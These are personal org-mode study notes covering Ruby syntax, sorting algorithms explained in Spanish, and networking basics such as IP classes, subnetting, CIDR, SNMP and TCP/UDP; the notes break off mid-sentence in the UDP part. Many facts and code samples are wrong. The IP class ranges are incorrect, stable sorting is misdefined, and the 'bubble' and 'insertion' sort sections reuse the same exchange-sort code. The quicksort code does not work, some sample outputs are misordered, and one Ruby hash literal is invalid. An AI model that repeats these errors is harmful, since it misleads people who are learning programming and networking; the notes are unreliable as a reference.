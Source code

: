 :PROPERTIES:

Some courses from different sources, or a recopilation of important
information.

* Ruby

** Good to know

   For embedding something into a string, use #{variable}.

   A class is a blueprint from which individual objects are
   constructed.

   An object is something with characteristics and actions.

   Every object is an instance of a class, so, an instance is an
   object created from a class.

   Ruby contains access control, a way of limiting access to other
   objetcs, whether or not they were inherited in the same class, or
   if they're not related, to an object's methods.

   They're three types of methods used to set access control.

   - Public :: The default behavior, these type of methods will be
               inherited to newer objects, for example, a public
               method of a class person called speak, means that every
               instance of that class will also have a speak method.

	       They are called using the receiver and the method, for
               example>

	       anotherPerson.speak
	       ^        ^
	       Receiver   Method

   - Private :: Defined after a *private* keyword, can only be used by
                the class which they we're written. For example, if I
                create a Person class and add a private method, this
                method won't be inherited by new instances, and can
                only be called referring to the Object it's from. For
                example:

		Person.private_method

		Creating an instance called /anotherPerson/ and trying
                to call the method on him will result in an error.

		This methods are used when we need to do some process
                internally, and don't want other to be able to use
                this process. Its receiver is always defining class (self).

   - Protected :: Coming soon

   If there's an /initialize/ method, it's automatically called when
   an object is created, use this for additional procedures for new
   objects.

   For inspecting an object, use /object.inspect/

   To indicate a /subclass/ or descendant of another class, use '<'

   #+BEGIN_SRC ruby

     class Child < Parent
       # Parent will have the methods and instance variables from its parent
     end

   #+END_SRC

   For accessing or writing into a variable's object, we should use
   accessors, being it creating the methods itself, or using
   attributes:

   #+BEGIN_SRC ruby
     def get_name
       return @name
     end
     def set_name(aName)
       @name = aName
     end
     # With attributes, at the beginning of the object
     attr_reader :description
     attr_writer :description
     # Or just
     attr_accessor :description
   #+END_SRC
   
   Or create functions but maintaining the name:

   #+BEGIN_SRC ruby
     def description=( aDescription )
       @description = aDescription
     end
   #+END_SRC

   Creating methods, allow us to add more steps and have more control.

   For more values at once, there are more syntaxes:

   #+BEGIN_SRC ruby
     attr_reader :name, :description
     attr_writer(:name, :description)
     attr_accessor(:value, :id, :owner)
   #+END_SRC

   All the ways for representing loops are:


   For conditionals, we have these syntaxes:


   We can access constants of a module, like so:

   #+BEGIN_SRC ruby
     module MyModule
       GOODMOOD = "happy"
     end

     puts(MyModule::GOODMOOD)
   #+END_SRC
   
   For including a model into a class, use the *include* keyword. We
   can also include files. It returns true if the module was
   successfully added.

   Using modules is a good approach, is a great way of grouping
   together methods, classes and constants. Also:

   1. Provide us with a namespace to prevent name clashes.
   2. Implement the mixin facility

   #+BEGIN_SRC ruby
     $LOAD_PATH << '.' # Search the files in the current directory

     require 'aModule'
     require 'anotherModule'

   #+END_SRC
   
   Ruby has a File library for dealing with files I/O.

   A simple syntax for exceptions is;

   #+BEGIN_SRC ruby
     startdir = Dir.getwd # We use Dir class for knowing the directory wer're in

     begin
       Dir.chdir("X:\\")
       puts(`dir`)

     rescue Exception => e # The exception is now the variable 'e'
       puts e.class
       puts e # May run if the directory doesn't exist or couldn't be loaded

     else
       puts "I will run if no exception appears"

     ensure # Will always run
       Dir.chdir(startdir) # We return to the beginning directory
     end

   #+END_SRC
   
   A good example of yield is when it calls a lambda, being an
   undefined method, for example:

   #+BEGIN_SRC ruby
     def make_salad
       yield "lettuce"
       yield "carrots"
       yield "olive oil"
     end
     # If make a salad doesn't exist, it will raise an error
     make_salad { |ingredient| puts "Adding #{ingredient} to salad!"}

   #+END_SRC

   Threads make your Ruby programs do multiple things at the same
   time. Some examples are:

   - Reading multiple files
   - Handling multiple web requests
   - Making multiple API connections

   There are several variables such as:

   - With global scope :: With '$' in its beginning.
   - Define attributes of a single object :: Starting with '@'.
   - Define attr of several objects :: Beginning with '@@'.
   - Local scope :: Starting with '_' or lowercase letter.
   - Constants :: Start with an uppercase letter.
   - Special variables or pseudo-variables ::
	- self :: The receiver object of the current method.
	- true :: True state.
	- false ::
	- nil ::
	- __FILE__ :: The name of the current source file.
	- __LINE__ :: The current line number.

** Comparisons

   | Equality     | == |
   |--------------+----|
   | Inequality   | != |
   | Lesser than  | <  |
   | Greater than | >  |
   | <=           | >= |

** Symbols

   Inmutable, reusable constants represented internally by an integer
   value. Often used instead of string to efficiently convey specific,
   meaningful values.

   #+BEGIN_SRC ruby
     :pending.class # Symbol

     status = :pending

     status == :pending # True

     status == 'pending' # False

     status == :approved # False

   #+END_SRC

** Arrays

   #+BEGIN_SRC ruby

     array = [1, 2, 3, 4, 5]   

   #+END_SRC

   Arrays can contain different types of items.

   Can be accessed from the end, like:
   
   #+BEGIN_SRC ruby
   
   array[-1] # 5

   #+END_SRC

   Different actions we can take are:

   #+BEGIN_SRC ruby

     # Add at the last of the array
     array << 6


   #+END_SRC

** Hashes

   Contain key/value pairs, they are denoted with curly braces:

   #+BEGIN_SRC ruby

     hash = { 'color' => 'green', 'number' : 5}

   #+END_SRC

   Asking a hash for a nonexistent key returns nil.

   Several actions we can take are:

   #+BEGIN_SRC ruby

     # Returning a hash keys
     new_hash.keys

   #+END_SRC
   
** Conditionals 

   #+BEGIN_SRC ruby
     if x == 1
       puts( 'Ok' )
     end
     # Or

     if x == 1 then puts ( 'Ok' ) end # then is mandatory in this syntax

     # Or use symbols

     x == 10 ? puts ("It's 10") : puts ("It's some other number")

     # For a more complex syntax

     (aDay == 'Saturday') or aDay == 'Sunday' ?
			       daytype = 'weekend' :
			       daytype = 'weekday'

     # Other syntaxes include

     puts( "somevar = #{somevar}" ) if DEBUG

     # For more control, we can use case

     case(i)
     when 1 then puts ("It's monday")
     when 2 then puts ("It's tuesday")
     when 3..7 then puts ("Ok")
     else puts ("Not a real day")
     end

     # For a multi trigger function or more syntaxes, we can use:

     case (i+1) # Can accept different values
     when 1, 'Monday', 'Mon' then puts ('Monday')
     when 3,4,5 then break
     end

   #+END_SRC

** Loops

   #+BEGIN_SRC ruby
     for i in [1,2,3] do
       puts (i)
     end
     # Is the same as
     [1,2,3].each do |i|
       puts( i )
     end

     # or use different syntaxees such as:

     for i in [1, "two", [3,4,5]] do puts( x ) end

     # Or

     [1, "two", [3,4,5]].each do |x| puts( x ) end

     # While Loops

     while tired
       sleep
     end

     # Or

     sleep while tired

     # For more complex syntax

     begin
       sleep
       snore
     end while tired

     # Or with until, can be though of as 'while not' loop. Its syntax and options are the same as with while.

     sleep until tired

     # The most famous EACH

     (1..5).each do |counter|
       puts "ireation #{counter}"
     end  

     # Another syntax is

     (1..5).each { |counter| puts "iteration #{counter}"

     # A useful usage is to show arrays and hashes values

     array.each do |element|
       puts "#{element} is part of the array"
     end

     hash.each do |key, value|
       puts "#{key} is #{value}"
     end

   #+END_SRC

** Labs
*** Sorting algorithms


    Algoritmos utilizados para ordenar miembros de una lista de
    elementos de acuerdo a un parámetro. En nuestro arreglo:
  
    #+BEGIN_SRC ruby
  array [Miguel, Marcos, Alejandro, Bell, Carlos]
    #+END_SRC
  
    Si utilizamos un algoritmo de ordenamiento, queremos orden
    alfabético, nuestro arreglo se verá:
  
    #+BEGIN_SRC ruby
  array [Alejandro, Bell, Carlos, Miguel, Marcos]
    #+END_SRC

    Si nuestro arreglo fuera, números, nos gustaría ordenarlo de menor a
    mayor:

    #+BEGIN_SRC ruby
  array [67, 1, 0, 43, 12, 74, 12, 154, 0.2, 312, -1]
    #+END_SRC

    Quedará:

    #+BEGIN_SRC ruby
  array [-1, 0.2, 0, 1, 12, 12, 43, 67, 74, 154, 312]
    #+END_SRC

    ¿Por qué querría ordenar mi arreglo?, es importante. Por ejemplo,
    puede hacer que otros logaritmos sean más rápidos. Un logaritmo de
    búsqueda de algún dato dá mejor rendimiento con datos arreglados
    (depende del logaritmo)

    Cuando hablamos de algoritmos de ordenamiento, es importante tener
    algunas definiciones claras:

    - Ordenamiento 'en el Lugar' :: Un algoritmo que modifica
	 directamente el arreglo. Existen algoritmos que crean nuevos
	 arreglos de acuerdo a los resultados. En nuestro ejemplo de
	 arriba, no creamos un nuevo arreglo, si no que 'modificamos' el
	 ya existente.

    - Ordenamiento Interno y Externo :: Un algoritmo externo, es aquel
	 que guarda sus resultados 'externamente'. Similar a 'en el
	 lugar', pero más 'amplio'.

	 Ordenamiento 'en el lugar' crea una nueva array, mientras que
	 una externa puede, además de crear una nueva array, almacenarla
	 externamente a la computadora donde se ejecuta el logaritmo. 

	 Un ejemplo de esto es, una computadora que ejecuta el
	 algoritmo, y los resultados los guarda en un Disco Duro, más no
	 dentro de la computadora.

	 Ordenamiento Interno se refiere a lo contrario, hablamos de que
	 los resultados los guarda en la misma computadora donde se
	 ejecuta el logaritmo.

    - Ordenamiento Estable :: Cuando se arregla un algoritmo, depende de
	 este, se pueden obtener distintos resultados, esto claro, con
	 los algoritmo inestables.

	 Un algoritmo es considerado estable cuando siempre muestra el
	 mismo resultado. Como ejemplo, tengo un nuevo arreglo:

	 #+BEGIN_SRC ruby
	   arreglo = [
	     Miguel  A
	     Brenda  B
	     Someone  C
	     Hello  A
	     You  B
	     Nope B
	   ]
	 #+END_SRC

	 Si utilizamos un algoritmo estable, ordenandolos por su última letra, nos dará:

	 #+BEGIN_SRC ruby
	   new_hash = [
	     Miguel  A
	     Hello  A
	     Brenda  B
	     You  B
	     Nope B
	     Someone C
	   ]
	 #+END_SRC

	 En un algoritmo inestable, podemos tener varios resultados:

	 #+BEGIN_SRC ruby
	     Hello  A
	     Miguel  A
	     You  B
	     Nope B
	     Brenda  B
	     Someone C
	 #+END_SRC

	 O:

	 #+BEGIN_SRC ruby
	     Miguel  A
	     Hello  A
	     You  B
	     Brenda  B
	     Nope B
	     Someone C
	 #+END_SRC

	 El punto es, que el algoritmo puede que cambie algunos
	 elementos ya que, la letra es la misma. Un Algoritmo estable
	 siempre nos dará el mismo resultado.

    - Complejidad de un logaritmo :: La complejidad de un logaritmo está
	 conectada con su runtime (cuanto tiempo tarda el logaritmo en
	 terminar). Para esto utilizamos fórmulas que nos ayudan a
	 calcular el rendimiento de un algoritmo. 

	 Una manera de calcular el rendimiento es con la Notación Big-O,
	 nos ayudará a ver el runtime depende a los datos que
	 pongamos. Por ejemplo, un logaritmo O(1) se refiere a que el
	 logaritmo siempre se tardará lo mismo, independientemente de
	 cuantos datos pondremos.

	 O(n) se refiere entonces, a que lo que tarde el logaritmo
	 dependerá de los datos que pongamos, mientras más datos usemos,
	 más se tardará el logaritmo en completarse. Hay que mencionar,
	 que la notación Big-O se refiere al peor caso posible para un
	 algoritmo. Por ejemplo, que un logaritmo busque un número del 1
	 al 100 y el número sea 99, por lo que tiene que ir de número en
	 númer comparando. 

	 También puede usarse para calcular otro tipo de casos además de
	 el peor, un caso regular (un logaritmo busca del 1 al 100 el
	 número 50) o un caso 'fácil' (del 1 al 100 búsca el número 20)
	 para un logaritmo. 

    - Algoritmo de dividir y conquistar :: Aquellos algoritmos que
	 ordenan siguiendo 3 pasos:

	 - Dividir :: Separa la base de datos en trozos más pequeños
	 - Conquistar :: Resuelve los problemas de los trozos más pequeños
	 - Combinar :: Combina los trozos resueltos y chequea

		Un algoritmo que, al presentarse un problema, lo separa y crea
		subproblemas, los cuales resolverá para luego llegar a el
		resultado al problema completo.

    Una vez entendido estas definiciones, presentaremos los algoritmos
    de ordenamiento en sí, todos los ejemplos se harán con Arrays:

** Ordenamiento por Selección

   Este algoritmo busca el elemento más pequeño en un arreglo,
   y la pone al principio, luego hace lo mismo con el siguiente menor
   y lo pone en la segunda posición. Todo proceso lo hace 'en el
   lugar', además de no ser estable. De acuerdo a la notación Big-O,
   su complejidad es de O(n^2):


   #+BEGIN_SRC ruby :results output
     some_array = [23, 51, 71, 12, 43, 0, 42, -1, 0.25, 1, 22, 19, 1002]
     new_array = []

     for i in 0...some_array.length
       new_array.push(some_array.min)
       some_array.delete(some_array.min)

     end
     puts new_array

   #+END_SRC

** Ordenamiento Burbuja

   Este algoritmo es estable y hace toda operación 'en el
   lugar'. Compara un elemento con su vecino (de la derecha) y, si el
   elemento es menor, los cambia de lugar. Seguirá hasta que no se
   haya hecho ningún cambio. Por ejemplo, tenemos un arreglo:

   #+BEGIN_SRC ruby
   arreglo = [1, 0, 4, 3, 2, 6, 7, 8]
   #+END_SRC

   Bubble sort, hará un primer recorrido al arreglo, siguiendo la
   regla de, si el elemento es mayor a su vecino, cambiarlos de lugar.

   Siguiendo la regla, cambiará 1 y 0, 4 y 3 y 4 y 2 de lugar:

   #+BEGIN_SRC ruby
   [0, 1, 3, 2, 4, 6, 7, 8]
   #+END_SRC

   Debido a que hubo 'cambios', el algoritmo hará un nuevo recorrido,
   esta vez solo cambiando 3 y 2

   #+BEGIN_SRC ruby
   [0, 1, 2, 3, 4, 6, 7, 8]
   #+END_SRC
   
   Hubieron cambios, por lo que hara un tercer recorrido, sin embargo,
   sin hacer ningún cambio:

   #+BEGIN_SRC ruby
   [0, 1, 2, 3, 4, 6, 7, 8] # Ya está arreglado
   #+END_SRC

   Sin, el algoritmo no se volverá a ejecutar. Su representación en
   código sería:

   #+BEGIN_SRC ruby :results output

     some_array = [23, 51, 71, 12, 43, 0, 42, -1, 0.25, 1, 22, 19, 1002]

     for i in 0...some_array.length
       for j in i+1...some_array.length
	 if some_array[i] > some_array[j]
	   some_array[i], some_array[j] = some_array[j], some_array[i]
	 end
       end
     end
     puts some_array

   #+END_SRC

** Ordenamiento Rápido

   No es un algoritmo estable, es 'en el lugar' y es de tipo 'divide y
   conquista'. Ordena un arreglo comparandolo con un 'pivote', el
   pivote es nuestro punto de referencia, su representación en código sería:
   
   #+BEGIN_SRC ruby :results output

     some_array = [10, 80, 30, 90, 40, 50, 70]
     pivot = some_array.last
     smaller = -1
     for i in 0...some_array.length
       if pivot > some_array[i]
	 smaller += 1
	 some_array[i], some_array[smaller] = some_array[smaller], some_array[i]
       else
	 some_array[i], some_array[some_array.length-1] = some_array[some_array.length-1], some_array[i]
       end
     end
     puts some_array

   #+END_SRC

   ¿Qué hace este algoritmo a nuestro arreglo?. Dado nuestro arreglo:

   #+BEGIN_SRC 
   [10, 80, 30, 90, 40, 50, 70]
   #+END_SRC
   Nuestro pivote es 70, va preguntando a nuestro arreglo sus
   contenidos, y los compara, es 70 menor que 10?, no hagas nada. Es
   80 menor que 70, ¿no?, haz un cambio.
   #+BEGIN_SRC 
   [10, 70, 30, 90, 40, 50, 80]
   #+END_SRC
   ¿Está 70 en una posición menor a 30?, haz un cambio.
   #+BEGIN_SRC 
   [10, 30, 70, 90, 40, 50, 80]
   #+END_SRC
   Así sucesivamente, nuestro algoritmo hace comparaciones con nuestro
   pivote (70) como referencia, y de acuerdo a ellos, ordena nuestro
   arreglo, hasta que quede:
   #+BEGIN_SRC 
   [10, 30, 40, 50, 70, 80, 90]
   #+END_SRC

** Ordenamiento por Fusión

   Es un algoritmo estable, no se ejecuta 'en el lugar' y es de tipo
   dividir y conquistar. Separa nuestro arreglo en nuevos arreglos,
   ordenas los nuevos arreglos, los úne y los vuelve a arreglar hasta
   dar con el resultado, es mejor representado en una imagen:

   [[https://www.geeksforgeeks.org/wp-content/uploads/Merge-Sort-Tutorial.png]]

   Tiene un complejidad de O(n (log n)), la mayoría de los algoritmos
   tipo 'dividir y conquistar' tienen esta complejidad. Su
   representación en código es:

   #+BEGIN_SRC ruby :results output

     some_array = [23, 51, 71, 12, 43, 0, 42, -1, 0.25, 1, 22, 19, 1002]
     final_array= []
     separate = some_array.length / 2

     first_array = some_array.take(separate)
     second_array = some_array.drop(separate)

     first_array.each do
       final_array.push(first_array.min)
       first_array.delete(first_array.min)
     end

     second_array.each do
       final_array.push(second_array.min)
       second_array.delete(second_array.min)
     end

     for i in 0...final_array.length
       for j in i+1...final_array.length
	 if final_array[i]>final_array[j]
	   change=final_array[i]
	   final_array[i]=final_array[j]
	   final_array[j]=change
	 end
       end
     end

     puts final_array


   #+END_SRC

   #+RESULTS:
   : -1
   : 0
   : 0.25
   : 1
   : 12
   : 19
   : 23

** Ordenamiento por Inserción

   Es un algoritmo estable y 'en el lugar'. Escanea un elemento y, si
   es menor, lo pone al principio de el arreglo (comparándolo con los
   primeros para ver su posición).

   [[https://media.geeksforgeeks.org/wp-content/uploads/insertionsort.png]]

   Tiene una complejidad de O(n^2), aquellos algoritmos cuyo código
   suele contener dos loops (for) tienen esta complejidad, su
   representación en código es:
   
   #+BEGIN_SRC ruby :results output

     some_array = [23, 51, 71, 12, 43, 0, 42, -1, 0.25, 1, 22, 19, 1002]

     for i in 0...some_array.length
       for j in i+1...some_array.length
	 if some_array[i]>some_array[j]
	   change=some_array[i]
	   some_array[i]=some_array[j]
	   some_array[j]=change
	 end
       end
     end
     puts some_array

   #+END_SRC

** Functions

   Functions and blocks return the value of the last statement

   #+BEGIN_SRC ruby

     def double(x)
       x * 2
     end

     double(2)

     # Parenteses are optinoal with an unambiguos result
     double 3

     double double 3


   #+END_SRC

   

** Rails Framework
* Web Development
** Basic workings

   The internet is a massive network of devices connected with
   themselves through IP addresses, these mark the how to connect to
   what device, identifying one device to another. 

   Normally, one isn't connected to the internet directly, your IP
   identifies your own local area network (LAN), created by your
   router, or router-modem if you have one. The internet is accessed
   through what is known as a public IP, identifying the modem of your
   network, every device in your LAN access the internet identifying
   by this IP address. Here, the work of the router is to give you any
   package you require from the internet, according to your local IP,
   so your packages aren't received by other person in your LAN.

   Every interaction with computer, cellphones, etc... Opening a page,
   using an app that needs authentication or some file from somewhere,
   is packages, the network's work is to transfer these packages
   successfully. But, what makes a network in the first place?

   The first network can be as simple as two computers connected
   through a cable, this, is quite limited, that's why we use more
   devices to connect more computers, in the same network, and
   nowadays, we use more ways than just a cable, wireless, even
   connecting two devices through bluetooth is its own network!.

   How is the network created with cable or with wireless, the basic
   answer: protocols.

   Protocols are the language of the computers, transfering a file and
   sending it through wireless, or through cable, is its own protocol,
   let's make an example, you connecting to a page:
   https://www.google.org

   1. You type the address in your browser and start the process
   2. Your OS has to use the DNS protocol to transform that name, into
      its real IP address, that name is just to make it simple to
      humans to navigate to pages.
   3. Your requests goes through the router, and using its public IP
      address, reaches google servers and ask 'can I have your page
      pls'.
   4. Google servers allow this interaction, and in response give you
      an .html document, maybe .css or more, but let's keep it simple.
   5. This html document is received by your router, that gives it
      only to you, and your OS receives it successfully, he allows the
      html document to be readed by the browser, and the browser
      general work starts, interpretating and showing that .html file
      correctly.

      This may sound simple, but several steps aren't explained here,
      maybe to reach google server's you had to go through cable to
      another source, maybe wifi, and you sent a package with another
      popular protocol, Transmission Control Protocol (TCP), allowing
      a good handling of the packages... Here we have several protocols
      involved in one simple request, more than these three that I
      presented!.

      Here your computer is a client, and google server is well, the
      server, this is how every interaction works in the internet, while
      clients request webpages, sites and apps, clients provide them,
      also, you followed a 'route' to reach google servers, that
      welcomes even more protocols.
    
      How does these protocols work?, let's explain the working of the
      most used

*** Internet Protocol (IP)

    Ensures that a unique identifier, called IP is assigned to each
    device, allowing to reach them in a any network.

**** IP Classes                                                       :Check:
     
     They are divided by their range of numbers, the first value determines
     the class, the first three classes (A, B and C) can be used for host
     addresses, the latter classes (D and E) are used for especial
     purposes, for example, D for multicast, and E for experimental
     purposes.

     - Class A :: Its first value can go from 0 to 127, with a subnet mask
		  of 8. The latter values can go to a limit of 255. For
		  example: 0.0.0.0 - 127.255.255.255, its limit.
     - Class B :: Its first value, from 128 to 191, with a subnet mask of
		  16, for example: 128.0.0.0 - 192.255.255.255
     - Class C :: Its first value can go from 192 to 233.
     - Class D :: From 244 to 239.
     - Class E :: From 240 to 255.

     The IP addresses from class A, the first value represents the network
     part, and the latter values, represent the host part.

     For Class B, the first two numbers represent the network part, while
     the latter values, the host.

     And for Class C, the first three numbers represent the network part,
     as you can imagine, some normal IP values to see are the ones on a
     local network, such as your internet, it can be for example: 192.168.0
     When the last number represents your device, for example, your PC can
     be '192.168.1.100', while your cellphone is '192.168.1.101'. 

     If you want to connect to your router, which is a normal device with
     an IP, you have to refer to it with, you guess it, his IP, normally
     one would use its browser, refering to: 192.168.1.1 or 192.168.0.1
     which are the most common IPs that routers have.

     The classes are important, since they declare which network are you
     on, and how many devices can be, in order to know if two devices are
     connected to the same network, one has to know the class and verify
     that the numbers are the same, that way, if device1 has an IP of
     10.0.0.1 and device2 has an IP of 11.0.0.2, they are not on the same
     network.

     Some Special IP address ranges that can be referred if needed are:

     - 0.0.0.0/8 :: addresses used to communicate with the local network

     - 127.0.0.0/8 :: loopback addresses

     - 169.254.0.0/16 :: link-local addresses (APIPA)

**** Subnet Mask

     An IP address has two components, the network address and the host
     address. A subnet mask separates the IP address into the network and
     host addresses. Subnetting further divides the host part of an IP
     address into a subnet and host address. If additional subnetwork is
     needed.

     It is called subnet mask because it is used to identify network
     address of an IP address by performing a bitwise AND operation on the netmask.

     A subnet Mask is a 32-bit number that masks an IP address, and divides
     the IP address into a network address and host address. Subnet Mask is
     made y setting network bits to all "1"s and stting host bits to all
     "0"s.

     Withing a given network, two host addresses are reserved for special
     purpose, and cannot be assigned to hosts. The "0" address is assigned
     a network address and "255" is assigned to broadcast address, and they
     cannot be assigned to hosts.

     Examples of commonly used netmasks for classed networks are 8-bits
     (Class A), 16-bits (Class B) and 24-bits (Class C), and classless
     networks can be found here: [[https://www.iplocation.net/subnet-mask][SubnetMask Classes.]]

     Subnetting an IP network is to separate a big network into smaller
     multiple networks for reorganization and security purposes. All nodes
     (hosts) in a subnetwork see all packets transmitted by any node in a
     network. Performance of a network is adversely affected under heavy
     traffic load due to collisions and retransmissions.

     Aplying a subnet mask to an IP address separates network address from
     host address. The network bits are represented by the 1's in the mask,
     and the host bits are represented by 0's. Performing a bitwise logical
     AND operation on the IP address with the subnet mask produces the
     network address. For example, aplying the class C subnet mask to our
     IP address 216.3.128.12 produces the followind network address: 

     IP:   1101 1000 . 0000 0011 . 1000 0000 . 0000 1100  (216.003.128.012)

     Mask: 1111 1111 . 1111 1111 . 1111 1111 . 0000 0000  (255.255.255.000)

     ---------------------------------------------

     1101 1000 . 0000 0011 . 1000 0000 . 0000 0000  (216.003.128.000)


     Subnetting Network

     Here is another scenario where subnetting is needed. Pretend that a web
     host with a Class C network needs to divide the network so that parts
     of the network can be leased to its customers. Let's assume that a
     host has a network adress of 216.3.128.0 (as shown in the example
     above). Let's say that we're going to divide the network into 2 and
     dedicate the first half to itseld, and the other half to its
     customers.

     216 .   3 . 128 . (0000 0000)  (1st half assigned to the web host)

     216 .   3 . 128 . (1000 0000)  (2nd half assigned to the customers)

     The web host will have the subnet masks of 216.3.128.128 (/25). Now,
     we'll further divide the 2nd half into eight block of 16 IP addresses.
      
      
      
     216 .   3 . 128 . (1000 0000)  Customer 1 -- Gets 16 IPs (14 usable)
      
     216 .   3 . 128 . (1001 0000)  Customer 2 -- Gets 16 IPs (14 usable)
      
     216 .   3 . 128 . (1010 0000)  Customer 3 -- Gets 16 IPs (14 usable)
      
     216 .   3 . 128 . (1011 0000)  Customer 4 -- Gets 16 IPs (14 usable)
      
     216 .   3 . 128 . (1100 0000)  Customer 5 -- Gets 16 IPs (14 usable)
      
     216 .   3 . 128 . (1101 0000)  Customer 6 -- Gets 16 IPs (14 usable)
      
     216 .   3 . 128 . (1110 0000)  Customer 7 -- Gets 16 IPs (14 usable)
      
     216 .   3 . 128 . (1111 0000)  Customer 8 -- Gets 16 IPs (14 usable)
      
     -----------------------------
      
     255 . 255 . 255 . (1111 0000)  (Subnet mask of 255.255.255.240)
      
     CIDR - Classless Inter Domain Routing
  
     Classless InterDomain Routing (CIDR) was invented to keep the internet
     from running out of IP addresses. The IPv4, a 32-bit, addresses have a
     limit of 4,294,967,296(2^32) unique IP addresses. The classfull
     address scheme (Class A, B and C) of allocating IP addresses in 8-bit
     increments can be very wasteful. With classfull addressing scheme, a
     minimun number of IP addresses allocated to an organization is 256
     (Class C). Giving 256 IP addresses to an organization only requiring
     15 IP addresses is wasteful. Also, an organization requitring more
     that 256 IP addresses (let's say 1000 IP addresses) is assigned a
     Class B, which allocates 64,536 IP addresses. Similarly, an
     organization requitring more than 65,636 (65,634 usable IPs) is
     assigned a Class A network, which allocates 16,777,216 (16.7 Million)
     IP addresses. This type of address allocation is very wasteful.
      
     With CIDR, a network of IP addresses is allocated in 1-bit increments
     as opposed to 8-bits in classful network. The use of a CIDR notated
     address can easily represent classful addresses (Class A = /8, Class B
     = /16 and Class C = /24). The number next to the slash (i.e. /8)
     represents the number of bits assigned to the network address. The
     example shown above can be illustrated with CIDR as follows:
      
      
     216.3.128.12, with subnet mask of 255.255.255.128 is written as
      
     216.3.128.12/25
      
      
      
     Similarly, the 8 customers with the block of 16 IP addresses can be
      
     written as:
      
      
      
     216.3.128.129/28, 216.3.128.130/28, and etc.
      
     With an introduction of CIDR addressing scheme, IP addresses are more
     efficiently allocated to ISPs and customers: and hence there is less
     risk of IP addresses running out anytime soon. For detailed
     specification on CIDR, please review RFC 1519. With introduction of
     additional gaming, medical, applicance and telecom devices requiring
     static IP addresses in addition to more that 6.5 billion (july 2006
     est.) world population, the IPv4 addresses with CIDR addressing scheme
     will eventually run out. To solve shortage of IPv4 addresses, the IPv6
     (128-bit) address scheme was introduced in 1993.
      
**** SNMP

     The simple network management protocol is important to the succesful operation
     of your network. If an attacker can breach the SNMP, they may be able to unmask
     your encrypted VPN communication, as well as see and possible control every
     device connected to your network.
     
     Simple Network Management Protocol uses UDP ports 161 and 162 to manage network
     devices. Network devices use this protocol to communicate to each other and
     can be used by administrators to manage the devices. If someone can access the
     SNMP protocol, we can harvest a vast resource of information on the target's
     network and even disable and change the settings on these devices.
     
     The SImple Network Management PRotocol (SNMP) is part of the Internet Protocol
     Suite that is designed to manage computers and network evices. *Cisco* Describes
     it as "and application layer protocol that facilitates the exchange of
     information between network devices". Succint and correct, but it misses the
     management function that SNMP also provides.
     
     SNMP is a stateless, datagram oriented protocol. It involves one or more
     administrative computers called managers. These managers monitor and manage a
     group of computers. Each of the manager computers has an agent installed that
     communicates with the amanager. 
     
     The agent on the managed computers provide management data to the managing
     computer. The manager can undertake management tasks, including modifying and
     aplying new configurations.

**** Internet Protocol Suite
     
     "The internet Protocol Suite is the conceptual model and set of communication
     protocols used in the Internet and similar computer networks."
     
     "A conceptal model in the fiel of computer science is a special case of general
     conceptual model. To distinguix from other rypes of models, it is also known as
     a domain model. Conceptual modeling should not be confused with other modeling
     disciplines such as data modelling, logical modelling and physical modelling.
     The conceptual model is explicitly chosen to be independent of design or
     implementation concerns, for example, concurrency or data storage. The aim of a
     conceptual model is to discuss the problem, and to fin the correct relationships
     between different concepts. The conceptual model attempts to clarify the meaning
     of various, usually ambiguos terms, and ensure that problems with different
     interpretations of the term and concepts cannot occur."
     
     A protocol is a set of rules that one needs to follow in order to
     share information throught the internet, or any other connection. 
     
     "It is usually known as TCP/IP because the foundational protocols in
     the suite are the Transmission Control Protocol (TCP) and the Internet
     Procotol (IP)"
     
***** Transmission Control Protocol
      
      " THe Transmission Control Protocol (TCP) is one of the main protocols
      of the internet protocol suite. It is originated in the initial
      network implementation in which it complemented the Internet Protocol
      (IP). Therefore, the entire suite is commonly referred to as
      TCP/IP. TCP provides reliable, ordered and error-checked delivery of a
      stream of octets (bytes) between applications running on host
      communicating via an IP network. Major internet applications such as
      the World Wide Web, email, remote administrations and file transfer
      rely on TCP. Applications that do not require reliable data stream
      service may use the User Datagram Protocol (UDP), which provides a
      connectionless datagram service that emphasizes reduced latency over
      reliability.

***** UDP

      In computer networking, the User Datagram Protocol (UDP) is one of the
      core members of the Internet Protocol Suite. With UDP, computer
      applications can send messages, in this case referred to as datagrams,
      to other hosts on an Internet Protocol (IP) network. Prior
      communications are not requiered in order to set up communication
      channels or data paths.

      UDP uses a simple connectionless communication model with a minimun of
      protocol mechanisms. UDP provices checksums for data integrity, and
      port numbers for addressing different functions at the source and
      destination of the datagram. It gas no handshaking dialogues, and thus
      exposes the user's program to any unreliability of the underlying
